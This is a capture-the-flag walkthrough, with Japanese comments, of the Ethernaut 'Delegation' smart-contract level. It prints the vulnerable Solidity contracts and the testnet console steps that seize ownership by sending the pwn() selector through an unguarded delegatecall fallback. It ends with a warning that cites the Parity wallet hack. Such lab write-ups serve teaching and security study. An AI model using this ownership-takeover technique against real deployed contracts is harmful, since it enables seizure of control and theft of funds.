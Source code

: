 6. DELEGATION 

This means that a contract can dynamically load code from a different address at runtime. 
Storage, current address and balance still refer to the calling contract, 
only the code is taken from the called address.

The goal of this level is for you to claim ownership of the instance you are given.

  Things that might help

- Look into Soliditys documentation on the delegatecall low level function, how it works, 
how it can be used to delegate operations to on-chain libraries, and what implications it has on execution scope.

- Fallback methods

- Method ids

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender; //change the pwner call the Delegation contract 
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data); //By hacking, delegatecall signature of pwn() function into this fallback 
    if (result) {
      this;
    }
  }
}
```


//まずいつもどおりinstanceをつくる

//contract確認
```
>contract

n {methods: {…}, abi: Array(3), address: '0x6288594C2A2B0847D5C6b7f6E7fB92f380D13717', transactionHash: undefined, constructor: ƒ, …}
abi: (3) [{…}, {…}, {…}]
address: "0x6288594C2A2B0847D5C6b7f6E7fB92f380D13717"
allEvents: ƒ (n)
constructor: ƒ ()
contract: I {_requestManager: t, givenProvider: Proxy, providers: {…}, setProvider: ƒ, …}
getPastEvents: ƒ (n,i)
methods: {owner(): ƒ}
owner: ƒ ()
send: ƒ (t)
sendTransaction: ƒ ()
transactionHash: undefined
[[Prototype]]: e
```
```
>contract.abi
(3) [{…}, {…}, {…}]
0: {inputs: Array(1), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
1: {stateMutability: 'nonpayable', type: 'fallback', constant: undefined, payable: undefined}
2: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
length: 3
[[Prototype]]: Array(0)
```

//現オーナーの確認
```
>await contract.owner()
'0x9451961b7Aea1Df57bc20CC68D72f662241b5493'
```
```
>var pwnFuncSignature = web3.utils.sha3("pwn()")
undefined
```
```
>pwnFuncSignature
'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'
```
```
>contract.sendTransaction({data: pwnFuncSignature})
Promise {<pending>, _events: o, emit: ƒ, on: ƒ, …}addListener: ƒ (t,e,r)emit: ƒ (t,e,r,n,o,a)listeners: ƒ (t)off: ƒ (t,e,r,n)on: ƒ (t,e,r)once: ƒ (t,e,r)removeAllListeners: ƒ (t)removeListener: ƒ (t,e,r,n)_events: o {}[[Prototype]]: Promise[[PromiseState]]: "pending"[[PromiseResult]]: undefined
```
```
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Sent transaction ⛏ https://rinkeby.etherscan.io/tx/0x3e1c3b84fcb960c8b027571fa9b2439959aaccf72da1b8d802d910d6e87732d8
e4e9b69aea3571538dca60595571493ed3b7d30d.js:1 ⛏️ Mined transaction ⛏ https://rinkeby.etherscan.io/tx/0x3e1c3b84fcb960c8b027571fa9b2439959aaccf72da1b8d802d910d6e87732d8
```

//ownerがchangeしたことを確認
```
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'
```

=> hackingに成功 via pwn()function


Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, 
your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". 
Delegates have complete access to your contracts state. The delegatecall function is a powerful feature, 
but a dangerous one, and must be used with extreme care.

Please refer to the The Parity Wallet Hack Explained article for an accurate explanation of how this idea was used to steal 30M USD.

https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/










